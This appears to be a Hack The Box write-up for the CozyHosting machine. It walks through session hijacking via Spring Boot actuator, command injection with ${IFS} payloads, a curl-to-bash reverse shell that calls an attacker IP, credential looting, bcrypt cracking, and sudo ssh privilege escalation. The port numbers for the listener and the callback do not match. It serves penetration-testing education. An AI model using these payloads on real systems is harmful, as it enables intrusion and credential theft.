








# HTB — CozyHosting Write-Up

> **Target:** `10.129.229.88`\
> **Host:** `cozyhosting.htb`\
> **Theme:** Spring Boot misconfig + session leakage → command injection → creds in JAR → DB hash crack → SSH sudo misconfig → root
---

## Recon

### Nmap

I started with a full port scan and then a service scan on discovered ports. The box is pretty minimal on the outside: **SSH (22)** and **HTTP (80)** are the main doors in. 

```bash
nmap -p- --min-rate 1000 -T4 10.129.229.88 -oN nmap-all.txt
nmap -p 22,80 -sCV 10.129.229.88 -oN nmap-svc.txt
```


---

## Web Enumeration

### Hostname mapping

Browsing `http://10.129.229.88/` redirected me to `cozyhosting.htb`, so I pinned it in `/etc/hosts` to keep everything consistent. 

```bash
echo "10.129.229.88 cozyhosting.htb" | sudo tee -a /etc/hosts
```


### Content discovery (directories)

Next I enumerated common paths. The interesting ones were `login`, `admin`, and `error`. 

IppSec used **gobuster + Burp**, but the idea is the same with any fuzzer: you’re shaking the doorknobs to see which ones aren’t locked.

```bash
gobuster dir -u http://cozyhosting.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```



### Spotting Spring Boot from `/error`

Hitting `/error` returned a **Whitelabel Error Page** (classic Spring Boot vibe). That was the first “oh, this is probably an actuator box” moment. 


---

## Foothold via Spring Boot Actuator

Spring Boot **Actuator** is basically a “car diagnostic port” for apps — super useful in dev, *super risky* if exposed in prod. The writeup confirms actuator endpoints were reachable and gave meaningful metadata. 

### 1) Map endpoints

I checked:

* `/actuator/mappings` → shows route map (what endpoints exist) 
* `/actuator/sessions` → shows active sessions (this is the real leak) 


### 2) Steal a session cookie (auth bypass)

`/actuator/sessions` listed active session IDs and even showed one for a real user (`kanderson`). 

Analogy: this is like a venue printing out a list of **valid wristband serial numbers** and leaving it on the front desk. If you can copy a wristband number, you walk in like you paid.

So I grabbed the session ID and set it as a cookie in my browser. After that, `/admin` opened as the authenticated user. 

📸 **Screenshot slots:**

* cookie set in browser / Burp

* `/admin` dashboard as `kanderson`
 

---

## RCE via Command Injection

On the admin panel, there’s a feature that takes a **hostname + username** for “automatic patching.” The error messaging strongly hinted the backend was doing an SSH-style operation with user input. 

 imagine a support agent copies what you type into a “form” and pastes it straight into a terminal. If that paste isn’t sanitized, you can sneak extra commands in.

### Why I suspected injection

* hostname looked validated tightly
* username field looked stricter about spaces
* the feature conceptually maps to something like `ssh user@host ...` 

### Bypassing “no spaces” with `${IFS}`

The username field didn’t like spaces, so I used `${IFS}` (internal field separator) as a **space substitute**. 

Analogy: it’s like using an invisible separator character that the shell still reads as a space.

### Confirming RCE (callback test)

I hosted a simple HTTP server on my box and injected a `curl` back to me. The presence of a hit on my server confirmed execution. 

```bash
# attacker box
python3 -m http.server 7000
```

Payload idea (username field):

```text
test;curl${IFS}http://10.10.14.195:9001;
```

* Burp request showing payload in parameter, HTTP server receiving the callback


### Reverse shell

Once I knew it executed commands, I went for a clean reverse shell path:

1. Host a small `rev.sh`
2. Make the target fetch + pipe to bash
3. Catch on `nc`

```bash
# attacker box
cat > rev.sh << 'EOF'
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.195/9001 0>&1'
EOF

python3 -m http.server 9001
nc -lvnp 4444
```

Injected payload (username field):

```text
test;curl${IFS}http://10.10.14.195:9001/rev.sh|bash;
```

This landed me a shell as the **application user** (`app`). 

* netcat listener catching shell, `id` output showing user context


> Quick quality-of-life: upgrade the shell (PTY).

```bash
script /dev/null -c bash
```
---

## Lateral Movement via JAR Looting

Inside `/app`, the deployed artifact was a `.jar` file (`cloudhosting-0.0.1.jar`). 
A JAR is basically a zipped suitcase containing the whole app — and very often, devs accidentally leave “sticky notes” (credentials) inside.

### Extract and inspect config

```bash
cd /app
ls -la

unzip -d /tmp/app cloudhosting-0.0.1.jar
cat /tmp/app/BOOT-INF/classes/application.properties
```

The `application.properties` exposed **PostgreSQL creds**, which is exactly the kind of thing you’d expect in a Spring Boot config file. 

📸 **Screenshot slots:**

* listing `/app` with jar

* extracted `application.properties` showing DB creds


---

## User Access via DB Hash Crack

### Connect to local Postgres

Using the discovered creds, I connected to the local DB and found the `cozyhosting` database. 

```bash
psql -h 127.0.0.1 -U postgres
\list
\connect cozyhosting
\dt
select * from users;
```

The `users` table contained password hashes (bcrypt-style). 

📸 **Screenshot slot:** users table showing hashes


### Crack bcrypt with hashcat

bcrypt is like a “slow lock” — designed to be expensive per guess — but weak passwords still fall to good wordlists.

The admin hash cracked to:

* `manchesterunited` 

```bash
hashcat -m 3200 admin.hash /usr/share/wordlists/rockyou.txt
```

📸 **Screenshot slot:** hashcat cracked output


### SSH as user `josh`

The system had a real user `josh`, and the cracked password worked for SSH login. 

```bash
ssh josh@10.129.229.88
```


✅ **User flag**
`/home/josh/user.txt` 

---

## Privilege Escalation to Root

### The misconfig: sudo allows ssh as root

Running `sudo -l` showed `josh` could run `/usr/bin/ssh` as root. 

This is one of those “it sounds harmless” permissions that turns out to be fatal.

Analogy: it’s like giving someone a *valet key*… but the valet key can start the car, open the trunk, and also lets you rewrite the ignition rules.



### Abuse `PermitLocalCommand` + `LocalCommand`

SSH has options that allow executing a **local command after connection** (`PermitLocalCommand=yes` + `LocalCommand=...`). The official flow uses that to pop a root bash shell. 

```bash
sudo /usr/bin/ssh -o PermitLocalCommand=yes -o 'LocalCommand=/bin/bash' josh@127.0.0.1
```

If it connects successfully, it drops into a root shell.

📸 **Screenshot slot:** root shell proof (`id`)


✅ **Root flag placeholder:**
`/root/root.txt` 


---